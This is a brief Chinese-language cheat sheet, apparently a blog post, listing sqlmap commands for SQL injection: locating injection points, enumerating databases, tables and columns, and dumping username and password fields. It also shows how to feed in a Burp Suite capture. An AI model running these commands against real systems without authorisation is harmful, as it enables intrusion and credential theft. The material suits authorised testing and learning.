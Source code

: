 ```yaml
---
title: "sqlmap"
date: 2024-12-19T21:25:05+08:00
draft: false
---
```


```shell
python sqlmap.py -h
```
查看帮助
```shell
python sqlmap.py -u "URL"
```
寻找注入点
```shell
python sqlmap.py -u "URL" --dbs
```
获取数据库库名
```shell
python sqlmap.py -u "URL" --current-db
```
获取当前数据库库名
```shell
python sqlmap.py -u "URL" -D security --tables
```
获取security库下的所有表名
```shell
python sqlmap.py -u "URL" -D security -T users --columns
```
获取字段名
```shell
python sqlmap.py -u "URL" -D security -T users -C id,username,password --dump
```
获取对应字段的全部值

特殊地，使用burpsuite截获的数据包时，参数改为
```shell
python sqlmap.py -r [path_to_the_pack]
```